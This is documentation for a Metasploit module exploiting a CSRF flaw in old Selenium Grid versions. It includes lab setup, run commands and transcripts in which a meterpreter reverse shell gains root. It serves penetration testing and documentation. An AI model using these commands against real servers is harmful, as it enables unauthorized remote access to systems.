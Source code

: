 ## Vulnerable Application

Selenium Server (Grid) before 4.0.0-alpha-7 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4.0.0-alpha-7

This module was successfully tested on:

    * selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-chrome:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-chrome:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-chrome:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
### selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 24.04
```
msf6 > use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      OmbNmrIU         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4444
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:40990) at 2024-12-30 13:33:31 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.5
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-chrome:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4447
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:34888) at 2024-12-30 13:34:30 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.6
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
